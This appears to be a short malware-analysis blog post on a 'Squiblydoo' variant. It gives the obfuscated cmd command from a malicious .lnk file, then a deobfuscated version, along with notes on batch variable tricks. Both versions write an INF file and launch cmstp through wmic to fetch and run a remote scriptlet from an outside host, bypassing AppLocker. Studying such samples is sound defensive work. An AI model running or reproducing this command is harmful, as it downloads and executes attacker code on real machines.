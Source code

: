```yaml
---
title: Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description: 
excerpt_separator: 
categories: [CyberAttack, MalwareCVE]
tags: [CyberAttack, MalwareCVE]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections. 
- The first part `creates a “RANDOM.inf” file` 
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c
```

```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items” 
&& call set “EhWLDvbm4162=%Items:~4,1%=s” 
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na” 
&& set “EhWLDvbm85714=a” 
&& set “EhWLDvbm13835=t” 
&& set “EhWLDvbm9306=d” 
&& call set “EhWLDvbm1449=%random%.inf” 
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf” 
&& set “EhWLDvbm59779=.” 
&& set “EhWLDvbm19532=“^” 
&& (for %r in (
    “[version]” 
    “signature=$Windows NT$” 
    “[destinationdirs]” 
    “2A436=01” 
    “[defaultinstall_singleuser]” 
    “UnRegisterOCXs=47E0” 
    “delfiles=2A436" 
    “[47E0]” 
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt” 
    “[2A436]” 
    “%random%.inf” 
    “[strings]” 
    “EhWLDvbm23745=t” 
    “EhWLDvbm69079=h” 
    “EhWLDvbm23092=:” 
    “EhWLDvbm55506=s” 
    “EhWLDvbm20494=/” 
    “EhWLDvbm59234=b” 
    “EhWLDvbm2079=org” 
    “servicename=' ‘” 
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.
